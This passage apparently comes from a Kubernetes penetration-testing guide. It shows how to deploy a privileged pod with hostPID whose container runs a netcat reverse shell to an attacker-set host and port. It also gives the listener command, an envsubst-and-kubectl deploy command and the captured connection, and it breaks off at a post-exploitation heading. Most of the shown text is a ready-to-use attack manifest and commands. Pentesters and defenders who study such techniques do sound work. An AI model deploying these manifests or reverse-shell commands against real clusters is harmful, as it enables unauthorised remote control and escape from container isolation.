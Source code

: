 ### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-and-hostpid-revshell
  labels: 
    app: pentest
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    securityContext:
      privileged: true
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  
    restartPolicy: Always
```
[pod-priv-revshell.yaml](pod-priv-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/priv/pod-priv-revshell.yaml | kubectl apply -f -
```

#### Catch the shell 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

So this could be a limitation of my linux-fu, but I have not been able to use Felix's exploit to directly spawn a remote connection of any kind. However, there are three good options when it comes to post exploitation: 

